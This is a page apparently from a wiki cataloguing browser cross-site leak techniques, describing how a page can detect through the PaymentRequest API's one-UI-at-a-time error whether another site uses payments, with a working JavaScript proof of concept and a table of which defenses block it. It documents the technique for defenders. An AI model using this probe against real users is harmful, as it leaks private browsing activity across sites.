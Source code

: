 +++
title = "Payment API leaks"
description = ""
category = "Attack"
abuse = []
defenses = []
menu = "main"
weight = 2
+++

## Detecting usage of Payment API
Because only one PaymentRequest UI is allowed to be visable the blocking can be detected.
```javascript
const applePayMethod = {
    supportedMethods: "https://apple.com/apple-pay",
    data: {
        version: 3,
        merchantIdentifier: "merchant.com.example",
        countryCode: "US",
        merchantCapabilities: ["supports3DS"],
        supportedNetworks: ["visa"],
    },
}

const methods = [{supportedMethods: "basic-card"}, applePayMethod];
const details = {
    total: {
        label: "Total",
        amount: {
            currency: "USD",
            value: "1.00",
        },
    },
}

const sleep = (ms) => {
    return new Promise(resolve => setTimeout(resolve, ms));
}

async function paymentsUsage(url) {
    return new Promise(async (r) =>  {
        if (!window.PaymentRequest){
            return r('PaymentRequest not supported.');
        }
        let w = open(url);
        await sleep(2000);
        let request = new PaymentRequest(methods, details);
        request.show().catch((err) => {
                if(err.message == "Another PaymentRequest UI is already showing in a different tab or window.")
                    return r(1);
                else{
                    return r(0);
                }
            }
        )
        request.abort();
    });
    
}
```

## Defense

| [SameSite Cookies (Lax)]({{< ref "/docs/defenses/opt-in/same-site-cookies.md" >}}) | [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) | [Framing Protections]({{< ref "/docs/defenses/opt-in/xfo.md" >}}) |                                          [Isolation Policies]({{< ref "/docs/defenses/isolation-policies" >}})                                           |
| :--------------------------------------------------------------------------------: | :-------------------------------------------------: | :---------------------------------------------------------------: | :------------------------------------------------------------------------------------------------------------------------------------------------------: |
|                                         ❌                                         |                         ❌                          |                                ❌                                 | [RIP]({{< ref "/docs/defenses/isolation-policies/resource-isolation" >}}) 🔗 [NIP]({{< ref "/docs/defenses/isolation-policies/navigation-isolation" >}}) |
## References
